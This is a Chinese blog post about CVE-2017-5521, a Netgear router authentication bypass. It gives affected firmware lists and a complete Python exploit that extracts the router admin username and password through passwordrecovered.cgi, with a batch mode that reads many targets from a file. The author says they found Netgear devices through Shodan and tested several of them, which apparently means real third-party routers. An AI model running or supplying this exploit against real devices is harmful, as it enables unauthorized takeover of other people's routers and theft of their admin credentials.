

# CVE-2017-5521: Bypassing Authentication on NETGEAR Routers（Netgear 认证绕过漏洞） - 小小 leo - 博客园

> 原文：[`www.cnblogs.com/xiaoxiaoleo/p/6360260.html`](https://www.cnblogs.com/xiaoxiaoleo/p/6360260.html)

SpiderLabs 昨天发布的漏洞， 用户访问路由器的 web 控制界面尝试身份验证，然后又取消身份验证，用户就会被重定向到一个页面暴露密码恢复的 token。然后通过 passwordrecovered.cgi?id=TOKEN 获取到路由器管理员密码。

漏洞细节

https://www.trustwave.com/Resources/Security-Advisories/Advisories/TWSL2017-003/?fid=8911

漏洞影响范围：

```
Finding 1: Remote and Local Password Disclosure
Credit: Simon Kenin of Trustwave SpiderLabs
CVE: CVE-2017-5521
Version affected: 

# AC1450 V1.0.0.34_10.0.16 (Latest)
# AC1450 V1.0.0.22_1.0.10
# AC1450 V1.0.0.14_1.0.6
# D6400 V1.0.0.44_1.0.44 (V1.0.0.52_1.0.52 and above not affected)
# D6400 V1.0.0.34_1.3.34
# D6400 V1.0.0.38_1.1.38
# D6400 V1.0.0.22_1.0.22
# DC112A V1.0.0.30_1.0.60 (Latest)
# DGN2200v4 V1.0.0.24_5.0.8 (V1.0.0.66_1.0.66 is latest and is not affected)
# JNDR3000 V1.0.0.18_1.0.16 (Latest)
# R6200 V1.0.1.48_1.0.37 (V1.0.1.52_1.0.41 and above are not affected)
# R6200v2 V1.0.1.20_1.0.18 (V1.0.3.10_10.1.10 is latest and is not affected)
# R6250 V1.0.1.84_1.0.78 (V1.0.4.2_10.1.10 is latest and is not affected)
# R6300	V1.0.2.78_1.0.58 (Latest)
# R6300v2 V1.0.4.2_10.0.74 (V1.0.4.6_10.0.76 is latest and is patched)
# R6300v2 V1.0.3.30_10.0.73
# R6700 V1.0.1.14_10.0.29 (Latest beta)
# R6700 V1.0.0.26_10.0.26 (Latest stable)
# R6700 V1.0.0.24_10.0.18
# R6900 V1.0.0.4_1.0.10 (Latest)
# R7000 V1.0.6.28_1.1.83 (V1.0.7.2_1.1.93 is latest and is patched)
# R8300 V1.0.2.48_1.0.52
# R8500 V1.0.2.30_1.0.43 (V1.0.2.64_1.0.62 and above is patched)
# R8500 V1.0.2.26_1.0.41
# R8500 V1.0.0.56_1.0.28
# R8500 V1.0.0.20_1.0.11
# VEGN2610 V1.0.0.35_1.0.35 (Latest)
# VEGN2610 V1.0.0.29_1.0.29
# VEGN2610 V1.0.0.27_1.0.27
# WNDR3400v2 V1.0.0.16_1.0.34 (V1.0.0.52_1.0.81 is latest and is not affected)
# WNDR3400v3 V1.0.0.22_1.0.29 (V1.0.1.2_1.0.51 is latest and is not affected)
# WNDR3700v3 V1.0.0.38_1.0.31 (Latest)
# WNDR4000 V1.0.2.4_9.1.86 (Latest)
# WNDR4500 V1.0.1.40_1.0.68 (Latest)
# WNDR4500v2 V1.0.0.60_1.0.38 (Latest)
# WNDR4500v2 V1.0.0.42_1.0.25
# WGR614v10 V1.0.2.60_60.0.85NA (Latest)
# WGR614v10 V1.0.2.58_60.0.84NA
# WGR614v10 V1.0.2.54_60.0.82NA
# WN3100RP V1.0.0.14_1.0.19 (Latest)
# WN3100RP V1.0.0.6_1.0.12

# Lenovo R3220 V1.0.0.16_1.0.16 (Latest)
# Lenovo R3220 V1.0.0.13_1.0.13

Finding 2: Remote and Local Password Disclosure
Credit: Simon Kenin of Trustwave SpiderLabs
CVE: CVE-2017-5521

Version affected:  

# AC1450 V1.0.0.34_10.0.16 (Latest)
# AC1450 V1.0.0.22_1.0.10
# AC1450 V1.0.0.14_1.0.6
# D6300 V1.0.0.96_1.1.96 (Latest)
# D6300B V1.0.0.36_1.0.36
# D6300B V1.0.0.32_1.0.32
# D6400 V1.0.0.44_1.0.44 (V1.0.0.52_1.0.52 is latest and is patched)
# D6400 V1.0.0.22_1.0.22
# DC112A V1.0.0.30_1.0.60 (Latest)
# DGN2200v4 V1.0.0.76_1.0.76 (Latest)
# DGN2200v4 V1.0.0.66_1.0.66
# DGN2200Bv4 V1.0.0.68_1.0.68 (Latest)
# JNDR3000 V1.0.0.18_1.0.16 (Latest)
# R6200 V1.0.1.56_1.0.43 (Latest)
# R6200 V1.0.1.52_1.0.41
# R6200 V1.0.1.48_1.0.37
# R6200v2 V1.0.3.10_10.1.10 (Latest)
# R6200v2 V1.0.1.20_1.0.18
# R6250 V1.0.4.6_10.1.12 (Latest beta)
# R6250 V1.0.4.2_10.1.10 (Latest stable)
# R6250 V1.0.1.84_1.0.78 
# R6300	V1.0.2.78_1.0.58 (Latest)
# R6300v2 V1.0.4.2_10.0.74 (V1.0.4.6_10.0.76 is latest and is patched)
# R6300v2 V1.0.3.6_1.0.63CH (Charter Comm.)
# R6400 V1.0.0.26_1.0.14 (V1.0.1.12_1.0.11 is latest and is patched)
# R6700 V1.0.0.26_10.0.26 (Latest)
# R6700 V1.0.0.24_10.0.18
# R6900 V1.0.0.4_1.0.10 (Latest)
# R7000 V1.0.6.28_1.1.83 (V1.0.7.2_1.1.93 is latest and is patched)
# R7000 V1.0.4.30_1.1.67
# R7900 V1.0.1.8_10.0.14 (Latest beta)
# R7900 V1.0.1.4_10.0.12 (Latest stable)
# R7900 V1.0.0.10_10.0.7
# R7900 V1.0.0.8_10.0.5
# R7900 V1.0.0.6_10.0.4
# R8000 V1.0.3.26_1.1.18 (Latest beta)
# R8000 V1.0.3.4_1.1.2 (Latest stable)
# R8300 V1.0.2.48_1.0.52
# R8500 V1.0.0.56_1.0.28 (V1.0.2.64_1.0.62 and above is patched)
# R8500 V1.0.2.30_1.0.43
# VEGN2610 V1.0.0.35_1.0.35 (Latest)
# VEGN2610 V1.0.0.27_1.0.27
# VEGN2610-1FXAUS V1.0.0.36_1.0.36 (Latest)
# VEVG2660 V1.0.0.23_1.0.23
# WNDR3400v2 V1.0.0.52_1.0.81 (Latest)
# WNDR3400v3 V1.0.1.4_1.0.52 (Latest)
# WNDR3400v3 V1.0.1.2_1.0.51
# WNDR3400v3 V1.0.0.22_1.0.29
# WNDR3700v3 V1.0.0.38_1.0.31 (Latest)
# WNDR4000 V1.0.2.4_9.1.86 (Latest)
# WNDR4500 V1.0.1.40_1.0.68 (Latest)
# WNDR4500 V1.0.1.6_1.0.24 
# WNDR4500v2 V1.0.0.60_1.0.38 (Latest)
# WNDR4500v2 V1.0.0.50_1.0.30
# WNR1000v3 V1.0.2.68_60.0.93NA (Latest)
# WNR1000v3 V1.0.2.62_60.0.87 (Latest)
# WNR3500Lv2 V1.2.0.34_40.0.75 (Latest)
# WNR3500Lv2 V1.2.0.32_40.0.74
# WGR614v10 V1.0.2.60_60.0.85NA (Latest)
# WGR614v10 V1.0.2.58_60.0.84NA
# WGR614v10 V1.0.2.54_60.0.82NA

# Lenovo R3220 V1.0.0.16_1.0.16 (Latest)
# Lenovo R3220 V1.0.0.13_1.0.13

```

Netgear 漏洞利用 exploit：

```
## netgore.py
import sys
import requests

def scrape(text, start_trig, end_trig):
    if text.find(start_trig) != -1:
	return text.split(start_trig, 1)[-1].split(end_trig, 1)[0]
    else:
        return "i_dont_speak_english"

def exp1(ip,port):
    #disable nasty insecure ssl warning
    requests.packages.urllib3.disable_warnings()
    #1st stage - get token
    # ip = sys.argv[1]
    # port = sys.argv[2]
    url = 'http://' + ip + ':' + port + '/'
    try:
        r = requests.get(url)
    except:
        url = 'https://' + ip + ':' + port + '/'
        r = requests.get(url, verify=False)
    model = r.headers.get('WWW-Authenticate')
    if model is not None:
        print "Attcking: " + model[13:-1]
    else:
        print "not a netgear router"
        #sys.exit(0)
    token = scrape(r.text, 'unauth.cgi?id=', '\"')
    if token == 'i_dont_speak_english':
        print "not vulnerable"
        #sys.exit(0)
        return
    print "token found: " + token
    #2nd stage - pass the token - get the password
    url = url + 'passwordrecovered.cgi?id=' + token
    r = requests.post(url, verify=False)
    #profit
    if r.text.find('left\">') != -1:
        username = (repr(scrape(r.text, 'Router Admin Username</td>', '</td>')))
        username = scrape(username, '>', '\'')
        password = (repr(scrape(r.text, 'Router Admin Password</td>', '</td>')))
        password = scrape(password, '>', '\'')
        if username == "i_dont_speak_english":
            username = (scrape(r.text[r.text.find('left\">'):-1], 'left\">', '</td>'))
            password = (scrape(r.text[r.text.rfind('left\">'):-1], 'left\">', '</td>'))
    else:
        print "not vulnerable becuse password recovery IS set"
        # sys.exit(0)
        return
    #html encoding pops out of nowhere, lets replace that
    password = password.replace("#","#")
    password = password.replace("&","&")
    print "user: " + username
    print "pass: " + password

def exp2(ip,port):
    #disable nasty insecure ssl warning
    requests.packages.urllib3.disable_warnings()
    #1st stage
    # ip = sys.argv[1]
    # port = sys.argv[2]
    url = 'http://' + ip + ':' + port + '/'
    try:
        r = requests.get(url)
    except:
        url = 'https://' + ip + ':' + port + '/'
        r = requests.get(url, verify=False)
    model = r.headers.get('WWW-Authenticate')
    if model is not None:
        print "Attcking: " + model[13:-1]
    else:
        print "not a netgear router"
        #sys.exit(0)
        return
    #2nd stage
    url = url + 'passwordrecovered.cgi?id=get_rekt'
    try:
        r = requests.post(url, verify=False)
    except:
        print "not vulnerable router"
        #sys.exit(0)
    #profit
    if r.text.find('left\">') != -1:
        username = (repr(scrape(r.text, 'Router Admin Username</td>', '</td>')))
        username = scrape(username, '>', '\'')
        password = (repr(scrape(r.text, 'Router Admin Password</td>', '</td>')))
        password = scrape(password, '>', '\'')
        if username == "i_dont_speak_english":
            username = (scrape(r.text[r.text.find('left\">'):-1], 'left\">', '</td>'))
            password = (scrape(r.text[r.text.rfind('left\">'):-1], 'left\">', '</td>'))
    else:
        print "not vulnerable router, or some one else already accessed passwordrecovered.cgi, reboot router and test again"
        return
        # sys.exit(0)
    #html encoding pops out of nowhere, lets replace that
    password = password.replace("#","#")
    password = password.replace("&","&")
    print "user: " + username
    print "pass: " + password

if __name__ == "__main__":
    if len(sys.argv) > 1:
        ip = sys.argv[1]
        port = sys.argv[2]
        print '---------start------------'
        print 'target',ip,port 
        print '---------exp1------------'
        exp1(ip,port)
        print '---------exp2------------'
        exp2(ip,port)
    else:
        f = open('target.txt')
        for line in f:
            line = line.strip()
            l = line.split(' ')
            if len(l) > 1:
                #print l
                ip = l[0]
                port = l[2]
                print '---------start------------'
                print 'target',ip,port 
                print '---------exp1------------'
                exp1(ip,port)
                print '---------exp2------------'
                exp2(ip,port)
        f.close()

```

shodan 搜索后测试了几个 netgear 设备，这个漏洞很清真：

